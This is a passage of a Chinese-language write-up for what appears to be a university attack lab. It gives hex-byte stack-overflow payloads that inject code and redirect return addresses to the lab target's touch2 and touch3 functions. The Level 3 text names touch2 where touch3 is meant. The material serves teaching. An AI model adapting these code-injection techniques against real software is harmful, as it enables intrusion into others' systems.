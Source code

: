 buf开始的先存放这部分代码，末尾存放指向这个代码的返回地址；末尾的后面则要再追加`touch2`的地址`0x4017ec`（用于上面的`ret`指令，注意栈是从高地址往低地址增长的，出栈则会反过来）。
此外通过`gdb`可以得知，buf的起始地址为`0x5561dc78`，这就是第一个返回地址。答案如下：

```
48 c7 c7 fa
97 b9 59 c3
20 20 20 20
20 20 20 20
20 20 20 20
20 20 20 20
20 20 20 20
20 20 20 20
20 20 20 20
20 20 20 20
78 dc 61 55
00 00 00 00
ec 17 40 00
00 00 00 00
```

#### Level 3

我们需要构造一段程序，将一个指向内容为`"59b997fa"`的字符串指针赋给%rdi，然后调用`touch2`。

根据ASCII对应，这个字符串应该为`35 39 62 39 39 37 66 61 00`。
~~不妨将这个字符串就存放在第一个返回地址的前面，可以计算出这个位置为`0x5561dc78+0x28-0x9=0x5561dc97`。~~
根据说明书的指导，我们不能放在这种位置，**因为它会被`hexmatch`等函数所使用的堆栈覆盖掉**。

我们需要把字符串放在第二个返回地址的后面，可以计算出这个位置为`0x5561dc78+56=0x5561dcb0`。
程序代码不需要动，把立即数响应修改一下就可以了。
第二个返回地址也应该修改为`touch3`的地址`0x4018fa`。答案如下：

```
48 c7 c7 b0
dc 61 55 c3
20 20 20 20
20 20 20 20
20 20 20 20
20 20 20 20
20 20 20 20
20 20 20 20
20 20 20 20
20 20 20 20
78 dc 61 55
00 00 00 00
fa 18 40 00
00 00 00 00
35 39 62 39
39 37 66 61
00
```

### 面向返回攻击

